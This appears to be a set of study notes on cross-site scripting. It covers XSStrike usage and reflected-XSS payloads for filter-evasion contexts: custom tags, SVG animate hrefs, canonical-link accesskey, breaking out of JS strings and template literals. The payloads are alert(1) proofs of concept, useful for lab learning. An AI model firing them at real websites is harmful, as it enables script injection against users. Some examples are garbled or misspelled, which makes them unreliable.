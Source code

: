 # Automated Discovery
- Almost all Web Application Vulnerability Scanners (Nessus, Burp Pro, ZAP) have varioue capabilities for detecting all types of XSS.

# Open Source Tools

## [XSS Strike](https://github.com/s0md3v/XSStrike)
```bash
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py -u "https://example.com/index.php?key=value"
```

- The tool runs and detect the vulnerable parameters.

- Other open source tools: [Brute XSS](https://github.com/shawarkhanethicalhacker/BruteXSS-1), [XSSer](https://github.com/epsylon/xsser)

# Manual Discovery
- We can use the list of payloads from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)to manually test for the vulnerabilities

# XSS contexts

## Reflected XSS into HTML context with most tags and attributes blocked.
- Use the [PortSwigger XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and follow these steps:
1. Determine which tags are allowed by trying all the tags from the cheat sheet.
2. Determine which events are allowed by trying all the events from the cheat sheet.
3. Once having found the allowed tags and events, we can proceed to customize our payload to exploit.


## Reflected XSS with custom tags
- Sometimes, applications block all tags, meaning we can't perfor the above exploit. In this case, we can try using a custom tag
```bash
<script>
	location = "https://example.com?search=<xss id='x' onfocus=alert(1) tabindex=1>#x";
</script>

Remember to encode the above payload
```
- We then send the exploit to the target.

## Reflected XSS with event handlers& href attributes blocked
- Sometimes, applications blocked `href`, which means we can't deliver some payloads. In this case, we can try:
```bash
	https://example.com?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click Me</text></a>
```

## Reflected XSS with some SVG markup
- In some applications, when tags like `svg,animatetransform, title, image` are allowed, we can perform the following exploit
```bash
	https://example.com?search=<svg><animatetransform $event=1>
```

## Reflected XSS with canonical tag
- Inspect the web applicatoin and we may see some canonical link like this `<link rel='canonical' hreft='https://example.com'>`
- We can try injecting the following payload:
```bash
	https://example.com?'accesskey='x' onclick='alert(1)
```
- The resulting canonical link looks like this: `<link rel='canonical' href='https://example.com' accessKey='x' onclieck='alert(1)'>`


## Break out of JS strings
- We can use either of these two common payloads `'-alert(1)-'` or `'-alert(1)//`
- Sometimes, application may filter the single quotation marks `'` and double quotation marks `"`. We can try bypassing these filters by using `\`.We can also use HTML-encoding `&apos;` to bypass such filter.
- In case the parentheses are blocked, we can use `throw` function: `onerror=alert, throw 1`, which is equivalent to `onerror=alert(1)`

## XSS in JavaScript template literals
- Using `${...}` is another common way to bypass web application's filtering.
```bash
${alert(1)} <=> alert(1)
``` 


